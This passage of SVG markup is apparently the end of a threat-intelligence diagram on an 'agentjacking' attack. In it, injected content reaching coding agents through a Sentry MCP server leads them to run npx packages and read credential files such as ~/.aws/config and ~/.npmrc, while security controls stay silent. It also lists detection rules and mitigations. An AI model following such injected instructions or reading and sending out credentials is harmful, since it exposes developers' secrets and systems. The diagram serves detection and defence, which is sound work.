  <rect class="stage" x="30" y="870" width="395" height="135" />
  <circle class="badge" cx="50" cy="890" r="14" />
  <text class="badgeText" x="50" y="894">6</text>
  <text class="label" x="70" y="894">Authorized Intent Chain — All Controls Silent</text>
  <text class="sub" x="40" y="918">EDR: silent — all processes authorized, no injection</text>
  <text class="sub" x="40" y="934">WAF/Cloudflare: silent — HTTPS to npm + CDN is expected</text>
  <text class="sub" x="40" y="950">IAM/VPN: silent — developer own credentials, no policy breach</text>
  <text class="mono" x="40" y="976">Developer -&gt; Agent -&gt; MCP -&gt; Sentry: each step authorized</text>
  <text class="mono" x="40" y="994">Attacker never touches victim network or infrastructure</text>
  <rect class="opK" x="460" y="805" width="395" height="155" />
  <circle class="badgeK" cx="480" cy="825" r="14" />
  <text class="badgeText" x="480" y="829">E</text>
  <text class="label" x="500" y="829">Scale: 100+ Orgs — Fortune 500 to Solo Devs</text>
  <text class="sub" x="470" y="853">85% exploitation success rate across 100+ controlled tests</text>
  <text class="sub" x="470" y="869">Sectors: finance, healthcare, government, education, infra</text>
  <text class="sub" x="470" y="885">Agents: Claude Code, Cursor, Codex, OpenAI VS Code ext.</text>
  <text class="sub" x="470" y="901">OSes: macOS, Windows, WSL, CI containers, GCP/AWS</text>
  <text class="mono" x="470" y="933">Sandboxed CI agents with NETWORK_DISABLED also reached</text>
  <text class="mono" x="470" y="951">Agent-JackStop mitigation released 2026-06-18 (open source)</text>
  <line class="arrow" x1="227" y1="1005" x2="227" y2="1018" marker-end="url(#ah)" />
  <rect class="stage" x="30" y="1020" width="395" height="135" />
  <circle class="badge" cx="50" cy="1040" r="14" />
  <text class="badgeText" x="50" y="1044">7</text>
  <text class="label" x="70" y="1044">Detection: npx Parent-Chain + Credential File Access</text>
  <text class="sub" x="40" y="1068">Sigma: npx spawned by claude.exe/cursor.exe with --yes flag</text>
  <text class="sub" x="40" y="1084">KQL: DeviceProcessEvents + DeviceFileEvents correlation</text>
  <text class="sub" x="40" y="1100">Suricata: DNS to advisory-tracker.com; POST to ingest.sentry.io</text>
  <text class="mono" x="40" y="1126">Sigma: e8b17004 + eb0ad62f (companion rules in /sigma/)</text>
  <text class="mono" x="40" y="1144">YARA: Agentjacking_Npm_Resolution_Injection in ~/.npm/_npx/</text>
  <rect class="op" x="460" y="975" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="995" r="14" />
  <text class="badgeText" x="480" y="999">F</text>
  <text class="label" x="500" y="999">Mitigations — Agent-JackStop + DSN Rotation</text>
  <text class="sub" x="470" y="1023">Disable Sentry MCP in .claude/settings.json immediately</text>
  <text class="sub" x="470" y="1039">Rotate all DSNs found in public repositories</text>
  <text class="sub" x="470" y="1055">Add DSN regex to gitleaks/trufflehog pre-commit hooks</text>
  <text class="sub" x="470" y="1071">Deploy agent-jackstop hardened configs (tenet-security/agent-jackstop)</text>
  <text class="mono" x="470" y="1103">No patch available — architectural issue at model trust level</text>
  <text class="mono" x="470" y="1121">Sentry: "technically not defensible" at ingest layer</text>
  <rect class="footer" x="20" y="1175" width="840" height="95" />
  <text class="footerH" x="35" y="1197">Detection anchors</text>
  <text class="footerT" x="35" y="1214">Primary: Sysmon EID 1 — npx/node spawned by claude.exe/cursor.exe/windsurf.exe with --yes flag</text>
  <text class="footerT" x="35" y="1230">Secondary: Sysmon EID 11 — node reading ~/.aws/config, ~/.npmrc, ~/.docker/config.json in agent lineage</text>
  <text class="footerT" x="35" y="1246">Network: DNS to advisory-tracker.com; POST to *.ingest.sentry.io from non-app IPs</text>
  <text class="footerT" x="35" y="1262">Rules: sigma/ (x3) | kql/ (x2) | yara/ (x3) | suricata/ (4 sids) | PEAK hunts H1/H2/H3</text>
</svg>
